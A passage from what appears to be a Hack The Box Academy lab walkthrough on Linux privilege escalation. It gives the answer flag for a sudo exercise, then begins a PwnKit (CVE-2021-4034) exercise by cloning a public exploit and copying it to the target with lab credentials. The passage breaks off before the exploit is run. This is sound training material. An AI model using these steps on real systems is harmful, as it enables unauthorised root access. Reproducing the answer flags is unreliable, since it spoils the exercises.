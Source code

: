 After pressing `b`, students will see a root shell prompt, and the flag can then be read:

Code: shell

```shell
cat /root/flag.txt
```

```
# cat /root/flag.txt

HTB{SuD0_e5c4l47i0n_1id}
```

The content of the flag is shown to be `HTB{SuD0_e5c4l47i0n_1id}`.

Answer: `HTB{SuD0_e5c4l47i0n_1id}`

# Polkit

## Question 1

### "Escalate the privileges and submit the contents of flag.txt as the answer."

Students need to first clone the repository for the [Pwnkit PoC](https://github.com/arthepsy/CVE-2021-4034.git), and then transfer it to the target using `scp` with the credentials `htb-student:HTB_@cademy_stdnt!`:

Code: shell

```shell
git clone https://github.com/arthepsy/CVE-2021-4034.git
scp -r CVE-2021-4034/ htb-student@STMIP:~/
```

```
┌─[eu-academy-1]─[10.10.15.63]─[htb-ac-594497@htb-acpl2d3fyg]─[~]
└──╼ [★]$ git clone https://github.com/arthepsy/CVE-2021-4034.git

Cloning into 'CVE-2021-4034'...
remote: Enumerating objects: 18, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 18 (delta 2), reused 0 (delta 0), pack-reused 14
Receiving objects: 100% (18/18), 4.79 KiB | 4.79 MiB/s, done.
Resolving deltas: 100% (3/3), done.

┌─[eu-academy-1]─[10.10.15.63]─[htb-ac-594497@htb-acpl2d3fyg]─[~]
└──╼ [★]$ scp -r CVE-2021-4034/ htb-student@10.129.205.113:~/

htb-student@10.129.205.113's password: 
cve-2021-4034-poc.c                                                                                                                                         100% 1267   382.4KB/s   00:00    
README.md                                                                                                                                                   100% 1271   625.6KB/s   00:00    
index                                                                                                                                                       100%  225    71.4KB/s   00:00    
config                                                                                                                                                      100%  266    
<SNIP>
```
